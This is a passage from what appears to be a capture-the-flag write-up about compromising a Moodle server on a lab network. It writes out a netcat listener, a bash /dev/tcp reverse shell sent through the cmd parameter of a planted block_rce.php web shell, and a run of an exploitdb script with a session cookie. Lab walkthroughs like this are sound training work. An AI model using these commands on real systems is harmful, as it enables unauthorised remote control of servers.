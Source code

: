 To spawn a reverse shell we need at first to setup a listener on our system.

```bash
nc -lvnp 8888
```

Next the reverse shell command has to be converted in a proper format to be accepted as URL input.

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.186/8888 0>&1'
```

We can execute the commands as parameters of the `cmd` variable used by `block_rce.php`.

```bash
curl -G --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.186/8888 0>&1'" http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php
```

![alt text](images/image-64.png)

We get a response on our listener and we have a reverse shell to the system!

![alt text](images/image-65.png)

#### Automated Exploitation

We can use the exploitation script found on `exploitdb` to automate the process of uploading a malicious payload.

```bash
python3 /usr/share/exploitdb/exploits/php/webapps/50180.py http://moodle.schooled.htb/moodle --cookie 9rhs5r7dbb3cjr0g5dnirj3icr
```

The exploit successfully runs and executes `whoami`, with output `www`.

![alt text](images/image-22.png)
